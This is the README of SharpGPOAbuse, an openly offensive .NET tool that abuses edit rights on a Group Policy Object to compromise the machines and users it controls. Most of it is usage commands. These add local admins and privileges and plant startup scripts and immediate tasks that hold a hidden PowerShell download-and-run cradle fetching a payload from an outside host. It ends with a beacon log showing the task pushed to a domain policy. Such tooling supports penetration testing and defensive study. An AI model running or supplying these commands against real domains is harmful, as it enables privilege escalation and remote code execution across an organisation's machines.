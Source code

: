 # SharpGPOAbuse
SharpGPOAbuse is a .NET application written in C# that can be used to take advantage of a user's edit rights on a Group Policy Object (GPO) in order to compromise the objects that are controlled by that GPO.

More details can be found at the following blog post: [https://labs.mwrinfosecurity.com/tools/sharpgpoabuse](https://labs.mwrinfosecurity.com/tools/sharpgpoabuse)

## Compile Instructions ## 
Make sure the necessary NuGet packages are installed properly and simply build the project in Visual Studio.

## Usage ##
```
Usage:
        SharpGPOAbuse.exe <AttackType> <AttackOptions>
```

## Attacks Types ## 
Currently SharpGPOAbuse supports the following options:

| Option               | Description                               |
| ---------------------|-------------------------------------------|
| [--AddUserRights](#adding-user-rights) | Add rights to a user                      |
| [--AddLocalAdmin](#adding-a-local-admin)      | Add a user to the local admins group      |
| [--AddComputerScript](#configuring-a-user-or-computer-logon-script)  | Add a new computer startup script         |
| [--AddUserScript](#configuring-a-user-or-computer-logon-script)      | Configure a user logon script             |
| [--AddComputerTask](#configuring-a-computer-or-user-immediate-task)    | Configure a computer immediate task       |
| [--AddUserTask](#configuring-a-computer-or-user-immediate-task)        | Add an immediate task to a user           |

## Attack Options

### Adding User Rights 
```
Options required to add new user rights:
--UserRights
        Set the new rights to add to a user. This option is case sensitive and a comma separeted list must be used.
--UserAccount
        Set the account to add the new rights.
--GPOName
        The name of the vulnerable GPO.
        
Example:
        SharpGPOAbuse.exe --AddUserRights --UserRights "SeTakeOwnershipPrivilege,SeRemoteInteractiveLogonRight" --UserAccount bob.smith --GPOName "Vulnerable GPO"
```

### Adding a Local Admin 
```
Options required to add a new local admin:
--UserAccount
        Set the name of the account to be added in local admins.
--GPOName
        The name of the vulnerable GPO.

Example:
        SharpGPOAbuse.exe --AddLocalAdmin --UserAccount bob.smith --GPOName "Vulnerable GPO"
```

### Configuring a User or Computer Logon Script  
```
Options required to add a new user or computer startup script:
--ScriptName
        Set the name of the new startup script.
--ScriptContents
        Set the contents of the new startup script.
--GPOName
        The name of the vulnerable GPO.

Example: 
        SharpGPOAbuse.exe --AddUserScript --ScriptName StartupScript.bat --ScriptContents "powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://10.1.1.10:80/a'))\"" --GPOName "Vulnerable GPO"
```

### Configuring a Computer or User Immediate Task  
```
Options required to add a new computer or user immediate task:
--TaskName
        Set the name of the new computer task.
--Author
        Set the author of the new task (use a DA account).
--Command
        Command to execute.
--Arguments
        Arguments passed to the command.
--GPOName
        The name of the vulnerable GPO.

Example: 
        SharpGPOAbuse.exe --AddComputerTask --TaskName "Update" --Author DOMAIN\Admin --Command "cmd.exe" --Arguments "/c powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://10.1.1.10:80/a'))\"" --GPOName "Vulnerable GPO"
```

## Additional Options 
| Option               | Description                               |
| ---------------------|-------------------------------------------|
| --DomainController   | Set the target domain controller          |
| --Domain             | Set the target domain                     |
| --Force              | Overwrite existing files if required      | 

## Example Output
```
beacon> execute-assembly /root/Desktop/SharpGPOAbuse_final.exe --AddComputerTask --TaskName "New Task" --Author EUROPA\Administrator --Command "cmd.exe" --Arguments "/c powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://10.1.1.141:80/a'))\"" --GPOName "Default Server Policy"
[*] Tasked beacon to run .NET program: SharpGPOAbuse_final.exe --AddComputerTask --TaskName "New Task" --Author EUROPA\Administrator --Command "cmd.exe" --Arguments "/c powershell.exe -nop -w hidden -c \"I
EX ((new-object net.webclient).downloadstring('http://10.1.1.141:80/a'))\"" --GPOName "Default Server Policy"
[+] host called home, sent: 171553 bytes
[+] received output:
[+] Domain = europa.com
[+] Domain Controller = EURODC01.europa.com
[+] Distinguished Name = CN=Policies,CN=System,DC=europa,DC=com
[+] GUID of "Default Server Policy" is: {877CB769-3543-40C6-A757-F2DF4E5E28BD}
[+] Creating file \\europa.com\SysVol\europa.com\Policies\{877CB769-3543-40C6-A757-F2DF4E5E28BD}\Machine\Preferences\ScheduledTasks\ScheduledTasks.xml
[+] versionNumber attribute changed successfully
[+] The version number in GPT.ini was increased successfully.
[+] The GPO was modified to include a new immediate task. Wait for the GPO refresh cycle.
[+] Done!
```
